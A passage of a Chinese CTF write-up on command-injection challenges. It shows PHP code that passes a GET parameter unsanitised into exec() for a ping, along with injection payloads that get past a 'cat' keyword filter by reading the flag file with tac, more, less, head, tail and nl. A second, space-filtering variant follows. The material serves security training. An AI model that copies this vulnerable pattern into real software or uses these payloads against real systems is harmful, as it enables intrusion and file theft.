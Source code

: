 **题目源码**
```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**
寻找能代替cat的命令

```bash
127.0.0.1;tac flag_573386320311.php #从最后一行倒序显示内容
127.0.0.1;more flag_573386320311.php #根据窗口大小，一页一页的现实文件内容
127.0.0.1;less flag_573386320311.php
127.0.0.1;head flag_573386320311.php # 只显示头几行
127.0.0.1;tail flag_573386320311.php # 只显示最后几行
127.0.0.1;nl flag_573386320311.php # 显示时输出行号
```

## 过滤空格

**题目源码**

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

**解题思路**
寻找能代替空格的命令
